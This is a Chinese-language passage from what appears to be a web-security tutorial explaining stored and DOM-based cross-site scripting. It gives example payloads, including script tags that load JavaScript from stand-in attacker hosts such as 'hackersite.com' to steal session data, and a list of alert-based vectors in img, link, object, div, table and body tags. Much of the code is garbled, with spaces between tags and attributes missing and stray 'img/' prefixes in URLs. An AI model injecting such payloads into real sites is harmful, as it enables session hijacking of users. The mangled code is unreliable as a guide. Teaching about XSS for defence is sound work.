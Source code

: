 发生了什么？插入的代码将请求的用户信息反射给攻击者，或者换句话说，就像 OWASP 文档中提到的：

> “这会导致受害者的 SessionID 被发送到攻击者的网站，允许攻击者劫持用户的当前会话。”

存储型 XSS（虽然有很多种）是与任何可能的用户输入相关的典型攻击类型，例如带有用户评论的博客等。攻击者的响应被保存在网站的存储系统中，这就是为什么叫这个名字。

在这种情况下，攻击者首先会做的事情是在答案中插入一个应该被转义的字符，以查看它是否确实被转义（例如，像 `<` 这样的字符）。如果字符出现（没有被转义），这意味着程序员没有在注释中检查输入。

现在是棘手的部分：你不仅可以插入一个简单的 `<` 符号，还可以插入类似这样的内容：

```cs
<iframe src="img/hackersite.com" height="400" width=500/>
```

由于这将在页面上与内容一起渲染，所以你写的任何内容都将被插入并显示。当然，如果你不是仅仅使用 iframe，而是插入一个加载一些危险 JavaScript 的脚本标签，那就更邪恶了：

```cs
"></a><script src="img/dangerous_site.com"></script><a href="
```

由于新的锚点标签不包含任何文本且不可见，因此用户将不会注意到这一点。现在，当任何用户访问网站时，此脚本将运行，向攻击者发送 JavaScript 代码已准备发送的信息。

一些作者将这种技术称为被动注入，而不是主动注入，在主动注入中，用户在不知道风险的情况下参与了黑客攻击过程。

最后，基于 DOM 的 XSS 版本使用 DOM 标签执行其操作。这些攻击修改了已知用于搜索和加载外部内容的标签：`img`、`link`、`script`、`input`、`iframe`、`object`，甚至`body`、`div`或`table`，以改变背景属性为借口。

这里有一些这些攻击的示例：

```cs
<!-- Different DOM Based attacks -->
<!-- External script -->
<scriptsrc=http://hackersite.com/xss.js></script>
<!-- <link> XSS -->
<linkrel="stylesheet"href="javascript:alert('XSS');">
<!-- <img> XSS -->
<imgsrc="img/javascript:alert('XSS');">
<!-- <input> XSS -->
<inputtype="image"src="img/javascript:alert('XSS');">
<!-- <object> XSS -->
<objecttype="text/x-scriptlet"data="http://hackersite.com/xss.html"/>
```

注意，即使是 `div`、`table` 或 `body` 这样的 *无辜* 标签，也可以用于这些目的：

```cs
<!-- <div> XSS -->
<divstyle="background-image: url(javascript:alert('XSS'))"></div>
<!-- <div> XSS -->
<divstyle="width: expression(alert('XSS'));"></div>
<!-- <table> XSS -->
<tablebackground="javascript:alert('XSS')">
<!-- <td> XSS -->
<tr><tdbackground="javascript:alert('XSS')"></td></tr>
</table>
<!-- onload attribute -->
<bodyonload=alert("XSS")>
<!-- background attribute -->
<bodybackground="javascript:alert('XSS')">
```
